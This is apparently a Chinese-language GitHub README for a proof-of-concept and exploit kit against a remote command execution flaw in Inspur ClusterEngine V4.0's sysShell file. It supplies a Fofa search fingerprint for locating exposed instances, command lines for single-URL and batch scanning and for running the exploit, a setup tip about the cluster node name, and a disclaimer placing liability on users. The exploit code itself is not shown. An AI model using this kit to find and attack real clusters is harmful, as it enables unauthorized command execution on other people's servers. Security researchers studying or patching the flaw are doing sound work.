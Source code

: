 # ClusterEngineV4.0sysShell_exp
浪潮ClusterEngineV4.0 sysShell文件存在远程命令执行漏洞。

## Fofa指纹
title="TSCEV4.0"

## 工具利用

注意data中 node 中的 cu01 需要为集群中的存在主机，根据实际情况进行修改。

poc：

python3 sysshell_poc.py -u http://127.0.0.1:1111 单个url测试

python3 sysshell_poc.py -f url.txt 批量检测

exp：

python3 sysshell_exp.py -u http://127.0.0.1:1111

![](./poc.png)

![](./exp.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
